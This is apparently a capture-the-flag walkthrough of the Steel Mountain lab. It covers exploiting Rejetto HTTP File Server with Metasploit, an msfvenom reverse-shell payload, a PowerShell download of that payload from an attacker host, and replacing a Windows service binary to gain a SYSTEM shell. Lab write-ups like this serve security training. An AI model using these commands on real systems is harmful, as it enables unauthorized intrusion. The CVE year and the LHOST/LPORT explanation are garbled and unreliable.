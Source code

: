 # Steel Mountain

Directly starting from Task_2.

#### Question:Scan the machine with nmap. What is the other port running a web server on?

#### Solution:

#### Enumeration Part

Run the following nmap command in order to scan the target machine.

```bash 
sudo nmap -sS --top-ports 200 target_machine_ip
```
![Alt text](../Screenshots/Steel_Mountain/nmap_output.png)

We can see that http-proxy is running on port 8080. So,
#### Answer: 8080

#### Question: Take a look at the other web server. What file server is running?
#### Solution:
Open the browser and enter the url along with port 8080 to see is there anything or not, 
I shown up a web page. Where there was a link for http file server as shown in the screenshot

![Alt text](../Screenshots/Steel_Mountain/file_server_link.png)

As I clicked, I shown up a page:
![Alt text](../Screenshots/Steel_Mountain/service_running.png)

#### Answer: Rejetto http file server

#### Question:What is the CVE number to exploit this file server?
#### Solution: 
I searched about it's vulnerabilities on google and found the correct cve number.
#### Answer: 2024-6287

#### Question: Use Metasploit to get an initial shell. What is the user flag?
#### Solution:
I opened metasplout using command:
`msfconsole`

Then I searched for hfs keyword using command:
`search hfs`

It showed me following output:
![Alt text](../Screenshots/Steel_Mountain/metasploit_exploits.png)

Then I selected 4th exploit and then set it's values:
Conventionally, LHOST and LPORT means the attackers machine's informationa and LHSOT and LPORT means target's information. I filled that information and ran the exploit. See the output:
![Alt text](../Screenshots/Steel_Mountain/meterpreter.png)

Now, I changed my directory to `c:\Users\bill\Desktop\` and read the content of user.txt:
![Alt text](../Screenshots/Steel_Mountain/user_flag.png)

#### Privilege Escalation:
Now, We need to upload a PowerUp.ps1 file to target machine. For that purpose, download it via the given link and then use the command below to transfer the file to target machine:
```bash
upload /path/to/PowerUp.ps1
```

This path is the path of the script in your attacker machine.
![Alt text](../Screenshots/Steel_Mountain/upload_powerup.png)

Now, in meterpreter, hit the command:
```
shell
```
Then go to the path where Powerup.ps1 script is present and enter the followind command:
```
powershell -c ". .\PowerUp.ps1; Invoke-AllChecks"
```
Above command will shown up the service that can be exploited, a part of it is shown below:

![Alt text](../Screenshots/Steel_Mountain/script_output.png)

Now, I am going to replace the actual file with our maclicious file (payload), so when service will start, instead of running legitimate exe file, it will run maclicious file and we will get the root shell.

#### Creating paylod

using msfconsole, we can make our payload:
```
msfvenom -p windows/shell_reverse_tcp LHOST=attacker_machine_ip LPORT=attacker_machine_port -f exe -o Advanced.exe
```
To transfer this payload, we need to run the python server so that we are able to access this payload from the shell of target machine. Command to run python server:
```
python -m http.server 8000
```
Now inside the shell of target machine, run the followind command to copy the payload from attacker's machine:
```
powershell -NoP -NonI -C "Invoke-WebRequest -Uri 'http://attacker_machine_ip:attacker_machine_port/Advanced.exe' -OutFile $env:USERPROFILE\\Desktop\\ASCService.exe"
```
Now I copied this payload to the desired path where legitimate exe file was present, I overwrite that with my payload:
`copy ASCService.exe "C:\Program Files (x86)\IObit\Advanced SystemCare"`
#### Error resolution: 
If you get error while copying it, then first stop the service and then try to copy. Command to stop the service is given ahead.

Now, I stopped the service using the command:
`net stop AdvancedSystemCareService9`
Now, run the netcat on our attacking machine, I ran with the command:
`nc -lvnp 4443`

Now, start the service using the command:
`net start AdvancedSystemCareService9`

Boom! We've got the root shell at our attacking machine.
![Alt text](../Screenshots/Steel_Mountain/root_shell.png)

Now, to get the flag, move the path "C:\Users\Administrator\Desktop", and run following command:
`type root.txt`
Here's the flag!.

![Alt text](../Screenshots/Steel_Mountain/root_flag.png)

